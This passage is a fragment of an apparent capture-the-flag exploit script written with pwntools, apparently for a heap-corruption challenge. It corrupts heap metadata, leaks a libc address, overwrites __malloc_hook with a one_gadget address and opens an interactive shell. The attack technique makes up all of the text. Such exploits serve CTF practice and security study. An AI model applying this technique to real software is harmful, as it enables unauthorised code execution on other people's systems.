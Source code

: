 ```python
 51 log.success("book1 -> {:#x}".format(book1))
 52 p.recvuntil(">")
 53 edit("1","1"*0xa0+p64(1)+p64(book1+0x60)+p64(book1+0x60)+p64(0xc8))
 54 nameedit()
 55 
 56 ############1#############
 57 create(16,"AAAAAA",0x21000,"BBBBB")
 58 #############2###########
 59 
 60 show()
 61 libc.address=u64(p.recvuntil("\x7f")[-6: ] + '\0\0')-0x5be010
 62 success("libc -> {:#x}".format(libc.address))
 63 
 64 p.recvuntil(">")
 65 
 66 one_gadget=0xf02a4
 67 success("__malloc_hook -> {:#x}".format(libc.sym['__malloc_hook']))
 68 edit("1",p64(libc.sym['__malloc_hook']))
 69 edit("2",p64(libc.address+one_gadget))
 70 
 71 p.recvuntil(">")
 72 p.sendline("2")
 73 p.sendlineafter(": ","1")
 74 p.interactive()

```

